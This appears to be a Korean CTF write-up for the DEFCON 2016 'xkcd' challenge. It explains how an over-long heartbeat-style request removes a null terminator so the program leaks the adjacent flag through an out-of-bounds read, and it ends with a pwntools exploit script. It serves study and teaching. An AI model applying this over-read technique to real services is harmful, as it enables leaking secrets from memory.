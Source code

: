 ```yaml
---
emoji: 🧻
title: DEFCON 2016 xkcd 취약점 분석
author: Zer0Luck
date: '2020-09-18'
categories: CTF
tags: pwn DEFCON 2016 CTF
---
```

# 취약점 분석


![./0.png](./0.png)

기타 정보
- statically linked, 64 bit
- Heartbeat packet

## 보호기법

- No RELRO
- No Canary found
- NX enabled
- No PIE

## 바이너리 분석

```c
root@e5e68faa5052:/home/Zer0Luck/challenges/xkcd# ./xkcd 
Could not open the flag.

-> 현재 디렉토리에 flag 파일을 생성한 후에 분석을 시도하자
```

## main 함수 분석

![./1.png](./1.png)


- flag 파일의 내용을 읽어와 flag 변수에 집어넣는 것을 확인할 수 있다.

![./2.png](./2.png)

    flag 전역 변수

- flag 변수는 .bss 섹션에 존재하며 전역 변수로 확인된다.
- 사용자의 입력 값을 토대로 특정 조건을 수행하게 되는데 `strtok` 함수를 바탕으로 문자 단위로 짤라 해당 문자열이 포함되는 지를 확인하고 있다.

```c
SERVER, ARE YOU STILL THERE?

IF SO, REPLY "
```

![./3.png](./3.png)

## strtok

- 그후 해당 부분에서 `"` 까지 잘라 해당 문자열의 값을 `globals` 전역 변수에 memcpy를 하는 것을 확인할 수 있다.

![./4.png](./4.png)

## globals 전역 변수

- `globals` 전역 변수는 총 512바이트이며, 같은 .bss 영역이므로 앞에서 선언된 flag와는 0x200차이가 나는 것을 확인할 수있다.

![./5.png](./5.png)

0x200 바이트 차이

![./6.png](./6.png)

## 비교

- strtok `(` `)` 한 내부의 특 정 정수 값을 바탕으로 `__isoc99_sscanf` 함수의 인자로 쓰이는 것을 확인할 수 있다.
- 입력 받은후 `globals` 전역 변수의 길이 값과 `()` 내부에있는 값을 비교하여  `globals` 의 길이가 작을 경우 `()` 입력한 길이 만큼 출력을 한다.
- 만약 더 큰 값을 입력했다면 `Nice Try`를 출력한다.

![./7.png](./7.png)


# 해결 방안 

## 공격

- 어떻게 해당 flag 문자열 값을 읽어올 수 있을까?
- `globals`, `flag` 전역 변수는 같은 .bss 섹션에 존재하며 `globals` 변수를 기준으로 0x200 바이트 차이가 난다.
- 만약에 사용자가 0x200 바이트 이상의 값을 입력하게 된다면 해당 값은 `flag` 전역 변수와 붙게 될 것이고 널값이 존재 하지 않게되 `streln` 은 해당 길이 검사를 할때 널 값을 확인할 수 없어 `flag` 변수의 널 까지 읽게 되어 `globals+flag` 길이를 측적하게 될 것이다.
- 그렇게 되면 `out-of-bound read` 취약점이 발생할 것이다.

```python
from pwn import *
e = ELF("./xkcd")
flag = ''

for i in range(1, 257):
    p = process("./xkcd")
    data = 'SERVER, ARE YOU STILL THERE? IF SO, REPLY "%s" (%d)'%("A"*512, 512+i)
    p.sendline(data)    
    print p.recvline().strip("A")
```

![./8.png](./8.png)

## flag

- flag를 획득할 수 있다.